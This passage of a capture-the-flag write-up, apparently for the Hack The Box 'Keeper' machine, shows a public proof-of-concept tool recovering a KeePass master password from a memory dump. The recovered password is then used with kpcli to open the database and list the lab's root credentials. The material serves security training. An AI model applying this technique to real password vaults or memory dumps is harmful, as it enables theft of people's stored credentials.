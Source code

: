 > [!NOTE]  
> `SCP` is a protocol that uses SSH to securely transfer files between a local machine and a remote machine. It is commonly used to copy files to and from a remote server.

*To run the exploit, we first need to install .NET and clone the proof-of-concept repository from GitHub. After this, we change the directory to the exploit folder and run it against the `KeePassDumpFull.dmp` file:*

```console
kali@root~# git clone https://github.com/vdohney/keepass-password-dumper.git

kali@root~# cd keepass-password-dumper

kali@root~# dotnet run ../KeePassDumpFull.dmp
[...]

Password candidates (character positions):

Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde

[...]
```

*We successfully retrieve the probable master password: `dgrød med fløde`. Using this, we attempt to open the KeePass database with `kpcli`.*
  
```console
kpcli:/> help
[...]

open -- Open a KeePass database file (open <file.kdb> [<file.key>])

[...]
```

> [!NOTE]  
> `kpcli` is a command-line interface for working with KeePass databases.
### 7. Accessing KeePass Database

*We try to open the database but encounter an error. Upon further research, we discover that the correct password is `rødgrød med fløde`, and we try again:*  

```console

kpcli:/> open passcodes.kdbx

Provide the master password: rødgrød med fløde

```

*We can now navigate to the `passcodes` section and then to `Network`, where we find the following credentials for `keeper.htb`:*

```console
kpcli:/passcodes/Network> show 0 -f

Title: keeper.htb (Ticketing Server)

Uname: root

Pass: F4><3K0nd!

URL:

Notes: PuTTY-User-Key-File-3: ssh-rsa

Encryption: none

```